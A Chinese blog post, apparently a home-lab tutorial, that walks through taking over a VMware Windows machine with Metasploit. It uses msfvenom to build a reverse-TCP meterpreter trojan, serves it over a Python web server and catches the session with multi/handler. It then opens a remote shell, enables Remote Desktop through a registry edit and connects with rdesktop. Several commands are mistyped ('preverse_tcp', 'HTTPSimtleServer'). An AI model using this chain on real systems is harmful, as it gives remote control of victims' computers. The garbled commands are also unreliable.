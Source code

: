 ```yaml
---
layout:     post
title:      Metasploit，生成木马内网渗透
subtitle:   Metasploit，简单vmware虚拟机内网渗透。
date:       2019-3-18
author:     张云
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```

1.是首先打开kali-linux，（这里我使用的版本是2019.1），打开终端运行msfconsole。
msfconsole
2.等待MSF启动成功，利用MSF下的一插件msfvenom，来生成木马。
msfvenom -p windows/meterpreter/preverse_tcp lhost='这里是输入你本机的ip' lport=‘这里输入你的端口，注意！不要和现在开启的端口冲突’ -f exe >/muma.exe
3.接下来开启一个简单的web服务。
python HTTPSimtleServer 8080.
4.去你的靶机浏览器访问kali的ip+端口并下载木马程序，
5.加载exp。
use exploit/multi/handler
6.设置payload。
set payload windows/meterpreter/preverse_tcp
set lhost '你的ip'
set lport '你的端口'
show options ‘这里查看参数是否都输入对了’。
run‘运行’
7.等待目标上线。
shell 控制目标终端。
8.输入以下命令打开对方3389远程桌面端口。
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f
9.利用kali下的rdesktop，链接对方桌面。
rdesktop ‘目标ip’。
10.完成。
